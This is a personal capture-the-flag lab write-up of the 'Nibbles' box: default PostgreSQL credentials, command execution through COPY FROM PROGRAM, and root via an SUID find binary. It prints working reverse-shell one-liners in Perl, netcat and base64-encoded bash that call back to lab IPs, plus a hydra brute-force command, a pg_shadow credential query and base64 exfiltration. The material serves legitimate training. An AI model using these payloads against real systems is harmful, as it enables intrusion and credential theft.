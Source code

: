 # Nibbles Writeup

Name: Nibbles
Date:  11/10/2023
Difficulty:  Intermediate
Goals:  
- Wipe out more of TJNULL undone   
Learnt:
- Use the ports that the box uses again and dont be an idiot
Beyond Root:
- Improved my command inject cheatsheet

- [[Nibbles-Notes.md]]
- [[Nibbles-CMD-by-CMDs.md]]

![](nightmare.jpg)
## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)


`postgres : postgres` default password and username
![](postgrespostgres.png)

## Exploit

[0xsyr0](https://github.com/0xsyr0/OSCP#postgresql) :
```sql
psql
psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>

postgres=# \list                     // list all databases
postgres=# \c                        // use database
postgres=# \c <DATABASE>             // use specific database
postgres=# \s                        // command history
postgres=# \q                        // quit
<DATABASE>=# \dt                     // list tables from current schema
<DATABASE>=# \dt *.*                 // list tables from all schema
<DATABASE>=# \du                     // list users roles
<DATABASE>=# \du+                    // list users roles
<DATABASE>=# SELECT user;            // get current user
<DATABASE>=# TABLE <TABLE>;          // select table
<DATABASE>=# SELECT * FROM users;    // select everything from users table
<DATABASE>=# SHOW rds.extensions;    // list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;    // read credentials
```

![](notables.png)

But we are super user..
![](superdefaultuser.png)

[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce) states that *"Since [version 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html) only **super users** and member of the group `**pg_execute_server_program**` can use copy for RCE.

```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

![](rcepostgres.png)

```
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.166:5432");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

`multi/postgres/postgres_copy_from_program_cmd_exec` module from metasploit. But ... similarly no shell
![](nomsfshell.png)

![](postsqlssh.png)

We can get the local.txt from reading it, but we cannot execute or read files with any characters that break postsql

No password within 8901 of rockyou.txt
```
hydra -v -V -u -l wilson -P /usr/share/wordlists/rockyou.txt -t 10 192.168.182.47 ftp
```

![](nopythonshell.png)

No `archive_mode`
![](archivemodeno.png)

Even though the user in passwd does have defined shell
![](noshell.png)

The service does not:
![](withshell.png)

https://github.com/b4keSn4ke/CVE-2019-9193

![](b64decodeintofileproof.png)

![](wecanexecinlinuxmem.png)

![](pingedmyself.png)

![](findcredsattempt1.png)
```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'ls -la /home/wilson';
COPY cmd_exec FROM PROGRAM 'ls -la /home/wilson/ftp';
COPY cmd_exec FROM PROGRAM 'ls -la /';
COPY cmd_exec FROM PROGRAM 'ls -la /opt';

COPY cmd_exec FROM PROGRAM 'ls -la /srv';
COPY cmd_exec FROM PROGRAM 'ls -la /srv/ftp/';
COPY cmd_exec FROM PROGRAM 'ls -la /home'; -- No postgresql key
COPY cmd_exec FROM PROGRAM 'find / -type f -name page2.html 2>/dev/null';
COPY cmd_exec FROM PROGRAM 'ls -la /var/www';

COPY cmd_exec FROM PROGRAM 'ls -la /var/www/html';
COPY cmd_exec FROM PROGRAM 'ls -la /etc/apache2/sites-enabled/000-default.conf';
COPY cmd_exec FROM PROGRAM 'cat /etc/apache2/sites-enabled/000-default.conf'; -- breaks the postgresql

-- Perms!!  
-- Create a .ssh, id_rsa! 
COPY cmd_exec FROM PROGRAM 'mkdir /home/wilson/.ssh'; -- no permission to do so

COPY cmd_exec FROM PROGRAM 'echo VGVzdGluZyAxMjMK | base64 -d > /tmp/test.txt';
COPY cmd_exec FROM PROGRAM 'cat /tmp/test.txt';

COPY cmd_exec FROM PROGRAM 'which nohup';
-- /usr/bin/nohup

echo "nohup /dev/shm & "

COPY cmd_exec FROM PROGRAM 'which curl'; -- wget /usr/bin/wget

COPY cmd_exec FROM PROGRAM 'wget ';

-- Use UTF-16LE by mistake
COPY cmd_exec FROM PROGRAM 'echo LwBiAGkAbgAvAGIAYQBzAGgAIAAtAGkAIAA+ACYAIAAvAGQAZQB2AC8AdABjAHAALwAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA5ADEALwA2ADkANgA5ACAAMAA+ACYAMQAKAA==
 | base64 -d > /dev/shm/bash-i.sh';
COPY cmd_exec FROM PROGRAM 'nohup /dev/shm/bash-i.sh &';

COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.191:8443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

-- does not work:
COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTkxLzk2OTYgMD4mMQo=
 | base64 -d | /bin/bash';


COPY cmd_exec FROM PROGRAM 'find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null';

-- Fails
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.191 9696 >/tmp/f';
-- Fails
COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTkxLzE1MDAwIDA+JjE= | base64 -d | bash';

COPY cmd_exec FROM PROGRAM 'find . -type d -name *onf* 2>/dev/null | ls | xargs grep -rie ''passw''';


```

```
COPY files FROM PROGRAM ‘perl -MIO -e ‘’$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,”192.168.45.191:9696");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’’’;
```

```sql
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.145.191:9696");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';;																					

SELECT * FROM cmd_exec;

-- Cant chmod 
-- 000-.conf

-- exfil with base64 worked!
COPY cmd_exec FROM PROGRAM 'cat /etc/hosts |base64 ';
```
[r3d-buck3t](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)

## Foothold

Learn try different shells idiot. I then tried to find about PROGRAM works - https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767, which I did not release was a write up, till stroll over `/etc/passwd`. This seems so weird 

```bash
# I tried this one
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.191 80 >/tmp/f';

# And the only difference was no forward slash
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.119.130 4469 >/tmp/f';
```

Proof I already tried it. So I am not turning  this into a Helped-Through. I am not sure how it execute non path files 
![](nofair.png)

And it can work from the same file...
![](butTHENWORKSFROMTHESAMEFILE.png)

And then I realised its the port. My fault. Massive Idiot.
## PrivEsc

I was a bit surprised.
![](findfoundsuid.png)
```bash
./find . -exec /bin/sh -p \; -quit
```
![](aslapintheface.png)

The box mocks me with its forward slashes -  effective euid is root 
![](theboxmocksmewithitsforwardslashes.png)
